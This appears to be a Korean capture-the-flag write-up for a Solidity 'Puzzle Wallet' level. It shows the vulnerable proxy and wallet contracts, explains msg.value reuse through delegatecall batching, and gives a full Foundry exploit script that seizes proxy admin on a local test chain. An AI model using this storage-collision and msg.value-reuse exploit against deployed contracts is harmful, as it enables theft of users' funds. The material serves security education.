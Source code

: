 # 지문


요즘 DeFi 작업을 위해 가스비를 내는 건 사실상 불가능하다.

몇몇 친구들이 여러 트랜잭션을 한 번에 묶어서(batch) 실행하면 비용을 조금 줄일 수 있다는 것을 발견했고, 그래서 이를 수행하기 위한 스마트 컨트랙트를 개발했다.

이들은 혹시 코드에 버그가 있을 경우를 대비해 **업그레이드 가능**하도록 이 컨트랙트를 만들었으며, 또 외부 사람들이 사용하는 것을 막고 싶었다. 그래서 투표를 통해 시스템에 두 명에게 특별한 역할을 부여했다:

* **Admin**: 스마트 컨트랙트의 로직을 업데이트할 수 있는 권한 보유
* **Owner**: 컨트랙트를 사용할 수 있는 화이트리스트를 관리하는 권한 보유

컨트랙트는 배포되었고, 그룹 멤버들이 화이트리스트에 등록되었다. 모두가 악랄한 채굴자들에 맞선 성취를 기뻐했다.

하지만 그들은 몰랐다. 그들의 점심값이 위험에 처해 있었다는 것을…

---

이 레벨에서는 이 지갑을 탈취해서 **프록시의 admin이 되는 것**이 목표다.

도움이 될 만한 것들:

* `delegatecall`이 어떻게 동작하는지, 그리고 이를 수행할 때 `msg.sender`와 `msg.value`가 어떻게 동작하는지 이해하기
* 프록시 패턴과 이들이 스토리지 변수를 다루는 방식을 이해하기



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
pragma experimental ABIEncoderV2;

import "../helpers/UpgradeableProxy-08.sol";

contract PuzzleProxy is UpgradeableProxy {
    address public pendingAdmin;
    address public admin;

    constructor(address _admin, address _implementation, bytes memory _initData)
        UpgradeableProxy(_implementation, _initData)
    {
        admin = _admin;
    }

    modifier onlyAdmin() {
        require(msg.sender == admin, "Caller is not the admin");
        _;
    }

    function proposeNewAdmin(address _newAdmin) external {
        pendingAdmin = _newAdmin;
    }

    function approveNewAdmin(address _expectedAdmin) external onlyAdmin {
        require(pendingAdmin == _expectedAdmin, "Expected new admin by the current admin is not the pending admin");
        admin = pendingAdmin;
    }

    function upgradeTo(address _newImplementation) external onlyAdmin {
        _upgradeTo(_newImplementation);
    }
}

contract PuzzleWallet {
    address public owner;
    uint256 public maxBalance;
    mapping(address => bool) public whitelisted;
    mapping(address => uint256) public balances;

    function init(uint256 _maxBalance) public {
        require(maxBalance == 0, "Already initialized");
        maxBalance = _maxBalance;
        owner = msg.sender;
    }

    modifier onlyWhitelisted() {
        require(whitelisted[msg.sender], "Not whitelisted");
        _;
    }

    function setMaxBalance(uint256 _maxBalance) external onlyWhitelisted {
        require(address(this).balance == 0, "Contract balance is not 0");
        maxBalance = _maxBalance;
    }

    function addToWhitelist(address addr) external {
        require(msg.sender == owner, "Not the owner");
        whitelisted[addr] = true;
    }

    function deposit() external payable onlyWhitelisted {
        require(address(this).balance <= maxBalance, "Max balance reached");
        balances[msg.sender] += msg.value;
    }

    function execute(address to, uint256 value, bytes calldata data) external payable onlyWhitelisted {
        require(balances[msg.sender] >= value, "Insufficient balance");
        balances[msg.sender] -= value;
        (bool success,) = to.call{value: value}(data);
        require(success, "Execution failed");
    }

    function multicall(bytes[] calldata data) external payable onlyWhitelisted {
        bool depositCalled = false;
        for (uint256 i = 0; i < data.length; i++) {
            bytes memory _data = data[i];
            bytes4 selector;
            assembly {
                selector := mload(add(_data, 32))
            }
            if (selector == this.deposit.selector) {
                require(!depositCalled, "Deposit can only be called once");
                // Protect against reusing msg.value
                depositCalled = true;
            }
            (bool success,) = address(this).delegatecall(data[i]);
            require(success, "Error while delegating call");
        }
    }
}
```

# 풀이 

이 문제의 모티브가 된 실제 이슈는 다음 링크에 소개되어있음. (https://blog.trailofbits.com/2021/12/16/detecting-miso-and-opyns-msg-value-reuse-vulnerability-with-slither/)


batch call이 delegationcall을 이용해서 동일 contract 내에 여러개의 함수를 한 call안에 실행시키게끔 구현해놓은게 많음
여기서 중요한건 delegatecall batch call에서 `public payable` 또는 `external payable`이 적용되버리면 100원을 한번 입금했는데 10번 입금된 효과를 노릴 수도 있음.

그러니까 delegatecall로 payable 함수를 여러번 호출한다고 여러번 징수되는게아니라 한번만 징수되는 이슈였음.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function proposeNewAdmin(address _newAdmin) external;
    function approveNewAdmin(address _expectedAdmin) external;
    function upgradeTo(address _newImplementation) external;
    function init(uint256 _maxBalance) external;
    function setMaxBalance(uint256 _maxBalance) external;
    function addToWhitelist(address addr) external;
    function deposit() external;
    function execute(address to, uint256 value, bytes calldata data) external;
    function multicall(bytes[] calldata data) external payable;
    function admin() external view returns (address);
}

contract Helper {
    bytes[] callInstance;
    bytes[] callInstance2;
    ITarget target_;

    function trigger(address target) public payable{
        target_ = ITarget(target);
        target_.proposeNewAdmin(address(this));
        target_.addToWhitelist(address(this));

        callInstance.push(abi.encodeWithSignature("deposit()"));
        callInstance2.push(abi.encodeWithSignature("deposit()"));
        callInstance.push(abi.encodeWithSignature("multicall(bytes[])", callInstance2));
        target_.multicall{value:1000000000000000}(callInstance);

        target_.execute(address(this), 2000000000000000, "");
        target_.setMaxBalance(uint256(uint160(0x3C44CdDdB6a900fa2b585dd299e03d12FA4293BC))); // 내 지갑 주소
    }
    receive() external payable {

    }

}
contract SolveScript is Script {
    address public target = 0xb6410CE04122bDAe70D8F2f509e9814B51766618;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        Helper helper = new Helper();
        console.log("admin : %s", ITarget(target).admin());
        helper.trigger{value:1000000000000000}(target);
        console.log("admin : %s", ITarget(target).admin());
        vm.stopBroadcast();
    }
}

```